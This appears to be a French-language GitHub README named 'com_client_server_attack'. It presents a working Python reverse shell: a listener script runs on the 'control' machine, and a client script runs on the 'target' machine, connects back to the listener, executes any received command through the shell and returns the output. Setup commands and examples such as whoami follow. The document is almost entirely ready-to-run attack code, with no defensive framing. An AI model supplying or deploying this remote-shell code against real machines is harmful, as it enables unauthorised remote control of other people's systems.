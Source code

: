 # com_client_server_attack
simple communication entre pc server et pc client(cible)

## Exemple Client/Serveur Python Fonctionnel
🔹 1. server.py – À exécuter sur ta machine de contrôle
```python
import socket
import subprocess

host = '0.0.0.0'   # écoute sur toutes les interfaces
port = 9999        # port à ouvrir

server = socket.socket()
server.bind((host, port))
server.listen(1)
print(f"[+] En attente de connexion sur {host}:{port}...")

conn, addr = server.accept()
print(f"[+] Connexion établie depuis {addr}")

while True:
    cmd = input("Commande à envoyer: ")
    if cmd.lower() in ['exit', 'quit']:
        conn.send(cmd.encode())
        break
    conn.send(cmd.encode())
    output = conn.recv(4096).decode()
    print(output)

conn.close()
```
🔹 2. client.py – À exécuter sur ta machine cible
```python
import socket
import subprocess

host = 'IP_DU_SERVEUR'  # <-- Remplace par l'adresse IP réelle du serveur
port = 9999

client = socket.socket()
client.connect((host, port))

while True:
    cmd = client.recv(1024).decode()
    if cmd.lower() in ['exit', 'quit']:
        break
    try:
        output = subprocess.check_output(cmd, shell=True, stderr=subprocess.STDOUT)
    except subprocess.CalledProcessError as e:
        output = e.output
    client.send(output)

client.close()
```
### 🔧 Étapes à suivre
Remplace IP_DU_SERVEUR dans client.py par la vraie IP de la machine serveur (commande : ip a ou ifconfig)

Ouvre le port si nécessaire avec :

```bash
sudo ufw allow 9999
```
Lance server.py sur la machine de contrôle :

```bash
python3 server.py
```
Puis client.py sur la machine cible :
```bash
python3 client.py
```
Tu pourras taper des commandes Linux:
- ls
- whoami
- pwd
- uname -a
        etc. dans le serveur et voir les résultats retournés par le client.


